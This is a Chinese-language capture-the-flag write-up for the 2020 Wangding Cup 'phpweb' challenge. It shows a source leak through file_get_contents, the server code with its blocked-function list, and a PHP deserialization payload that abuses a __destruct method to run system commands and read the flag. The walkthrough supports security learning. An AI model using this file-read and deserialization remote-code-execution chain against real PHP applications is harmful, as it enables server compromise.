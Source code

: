 # [网鼎杯 2020 朱雀组]phpweb
![](<./img/Pasted image 20221113204640.png>)

---
每隔五秒`POST`一次，传递`func`和`p`参数

![](<./img/Pasted image 20221113204657.png>)

![](<./img/Pasted image 20221113204833.png>)
```php
func=abc&p=123
```
> call_user_func() expects parameter 1 to be a valid callback, function 'abc' not found or invalid function name

尝试`system`执行
```php
func=system&p=ls
```
> Hacker...

被过滤了QAQ

再尝试`file_get_contents`获取`flag`
```php
func=file_get_contents&p=/flag
```
> file_get_contents(/flag): failed to open stream: No such file or directory

并没有`/flag`这个文件，但是`file_get_contents`没有被过滤，尝试利用这一点获取`index.php`的内容
```php
func=file_get_contents&p=index.php
```

```php
<!DOCTYPE html>
<html>
	<head>
	    <title>phpweb</title>
	    <style type="text/css">
	        body {
	            background: url("bg.jpg") no-repeat;
	            background-size: 100%;
	        }
	        p {
	            color: white;
	        }
	    </style>
	</head>

	<body>
	<script language=javascript>
	    setTimeout("document.form1.submit()",5000)
	</script>
	<p>
	    <?php
	    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	    function gettime($func, $p) {
	        $result = call_user_func($func, $p);
	        $a= gettype($result);
	        if ($a == "string") {
	            return $result;
	        } else {return "";}
	    }
	    class Test {
	        var $p = "Y-m-d h:i:s a";
	        var $func = "date";
	        function __destruct() {
	            if ($this->func != "") {
	                echo gettime($this->func, $this->p);
	            }
	        }
	    }
	    $func = $_REQUEST["func"];
	    $p = $_REQUEST["p"];
	
	    if ($func != null) {
	        $func = strtolower($func);
	        if (!in_array($func,$disable_fun)) {
	            echo gettime($func, $p);
	        }else {
	            die("Hacker...");
	        }
	    }
	    ?>
	</p>
	<form  id=form1 name=form1 action="index.php" method=post>
	    <input type=hidden id=func name=func value='date'>
	    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
	</body>
</html>
```
好家伙，ban了这么多

注意到有个从没用到的`Test`类，里边还有个`__destruct`方法，而且`unserialize`也没被ban，看来反序列化八九不离十了

大致思路是构造payload，利用反序列化生成`Test`类的一个对象，再借由其`__destruct`方法绕过过滤

```php
<?php
class Test {
    var $p;
    var $func;
}

$payload = new Test;
$payload->func = "system";
$payload->p = 'find / -name *flag*';
echo serialize($payload);
?>
```
> O:4:"Test":2:{s:1:"p";s:19:"find / -name \*flag\*";s:4:"func";s:6:"system";}
```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}
```

```
...
/tmp/flagoefiu4r93
...
```
---
读取`flag`
```php
$payload->p = 'cat /tmp/flagoefiu4r93';
```
> O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}

```php
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

```
flag{3b352024-0ec2-4ac3-a110-9cbd86917b0c}
```
